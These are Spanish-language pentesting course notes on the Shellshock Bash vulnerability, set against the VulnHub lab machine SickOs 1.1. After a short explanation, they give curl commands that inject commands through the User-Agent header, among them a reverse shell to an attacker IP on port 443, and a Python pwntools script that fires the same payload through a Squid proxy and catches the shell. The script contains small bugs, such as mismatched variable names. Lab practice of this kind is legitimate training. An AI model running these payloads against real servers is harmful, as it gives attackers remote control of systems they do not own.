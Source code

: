 # Ataque ShellShock

Tags: #ShellShock #OWASP #Explotacion 

Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

A continuación se proporciona el enlace directo para la descarga de la máquina ‘**SickOs 1.1**‘. Esta máquina corresponde a la misma que estuvimos enumerando en la clase anterior, solo que en este caso procederemos con la fase de explotación haciendo uso de esta técnica:

-   **SickOs 1.1**: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)


## Comandos

Si encontramos un dir llamado **/cgi-bin/** lo mas probables es que podamos testear un ShellShock. 
En esos directorios debemos de buscar archivos **pl, sh, cgi,** asi como tambien sin extension. 

* [ShellShock-Attack](https://blog.cloudflare.com/inside-shellshock/)

```bash 
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; /usr/bin/whoami" 

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami


# Si al momento de ejecutar el comando anterior no nos reporta el comando, debemos de colocar un echo antes o hasta dos antes.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /usr/bin/id" 

	# Podemos colocar la ruta de cualquier comando, esperando a que la maquina tenga ese comando instalado. 


# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

	# Otra ruta del bash por si no funciona es '/usr/bin/bash' 
```


Haremos que al momento de ejecutar el programa, podamos tener una ReverShell al instante en nuestra consola.
```python
# Primero nos debemos crear un archivo python 

❯ nano ShellShock.py

#!/usr/bin/python3

import requests
import signal
import sys
import threading 
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.68.1:3128'}
lport = 443

def shellshock_attack():
	header = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	
	if shell.sock is None:
		lof.failure("No se pudo establecer la conexion")
		sys.exit(1)
	else: 
		shell.interactive()
```